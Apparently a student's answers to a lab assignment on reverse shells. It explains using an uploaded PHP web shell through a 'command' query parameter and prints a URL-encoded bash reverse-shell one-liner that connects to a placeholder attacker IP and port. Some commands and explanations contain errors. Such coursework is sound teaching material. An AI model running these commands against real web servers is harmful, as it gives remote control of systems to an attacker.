 # Reverse Shell Assignment

## PART 1

A. We can execute the command whoami using the PHP shell script we uploaded the the '/uploadedimages/' endpoint earlier. We do this by sending a request to 'http://danger.jeffondich.com/uploadedimages?command=whoami'. That this does is it sends a query parameter named command with a value of whoami. Our uploaded script uses this query parameter and executes the command on the host machine. Because we wrap the PHP command in the '<pre>' tag the exact output of the command is returned. 

B. The pre tag means that what ever is inside should be formatted exactly as given. Without this we would not see the expected formatting of a terminal command output.

## PART 2


## PART 3

## PART 4

A. Once the webshell is set up I can simply run the ifconfig command and see the ip address is 192.168.64.2. To get the IP address before the reverse shell is set up I would need access to the kali machine to run this command. In the case it has a domain I could also run a DNS lookup of the domain name. 

B. My IP address is 172.20.10.7 I found this by running 'ipcondif getifaddr en0'. We should use the host IP in this case. (Why)

C. I choose 5000

D. 

E. Yes. We can run specific commands to figure out the local of the connection for instance 'ifconfig', in this case we see the IP matches the Kali intance.

F. The % in the URL are denoting URL encoded information. For the given long url what we are doing is running the 'bach -c "bash -h >& /dev/tcp/host_ip/host_port/ 0>&1' in which we ran in the last excersise. In this case we do not need to run this command on the kali machine as this command is being run through the reverse shell we created with the PHP script.

G. In this case the following is happening. Lets assume that we already have the reverse shell PHP script installed in the /var/html/ directory and the apache server is running on port 80. When we initiate the http request we are sending the command 'command=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/YOUR_HOST_OS_IP/YOUR_CHOSEN_PORT%200%3E%261%22' to the PHP shell script. This is decoded to the command 'bash -c "bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1"' and is run on the kali machine. This command now forwards the result of the bash command to the /dev/tcp/act_IP/act_port/ folder. This sends the information in the folder through the TCP connection to the corresponding ip and port. Our attacking machine is listening to this port meaning that we now created a reverse shell through the PHP script placed in the web server.
